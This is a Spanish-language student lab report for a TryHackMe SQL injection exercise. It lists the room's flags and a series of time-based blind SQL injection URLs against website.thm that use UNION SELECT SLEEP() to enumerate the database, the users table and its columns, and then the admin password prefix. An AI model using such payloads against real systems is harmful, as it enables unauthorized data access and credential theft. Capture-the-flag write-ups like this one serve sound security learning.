

# Práctica 5 - SQLi

* Integrantes:
	- Pedro Méndez Jose Manuel - 315073120
	- Azpeitia García Karyme Ivette - 317340385

## Banderas

Las banderas de THM son las siguientes:

- Task 5:THM{SQL_INJECTION_3840
- Task 6:THM{SQL_INJECTION_9581}
- Task 7:THM{SQL_INJECTION_1093}
- Task 8:THM{SQL_INJECTION_MASTER}

Algunos comandos ocupados para obtener la ultima bandera:

* https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli_four%';--

* https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' AND table_name like 'users%';--

* La base era 'sqli_four%', una tabla es 'users' y sus columnas son: id, username, password

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 FROM information_schema.columns where table_schema = 'sqli_four' and table_name = 'users' and COLUMN_NAME like 'password%' and COLUMN_NAME !='id';--

 	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 FROM users where username like 'admin%' ;--

	- Con este input: **https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 FROM users where username like 'admin%';--** obtenemos que admin es un usuario valido

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 FROM users where username = 'admin' and password like '%';--

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(4),2 from users where username='admin' and password like '9%';--

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(3),2 FROM users where username='admin' and password like '4961%'; --

	- https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5),2 FROM users where username='admin' and password like '4961%'; --

### Cuenta que realizo el laboratorio.

Username: [Ntory](https://tryhackme.com/p/Ntory)

| 
|:----------------------:|
| Imagen del laboratorio

------
📢⌨️ with ❤️ by [Jose-MPM](https://github.com/Jose-MPM) 😊⌨️ and [Kary-GOD](https://github.com/Kary-AG) 😊⌨️🎁
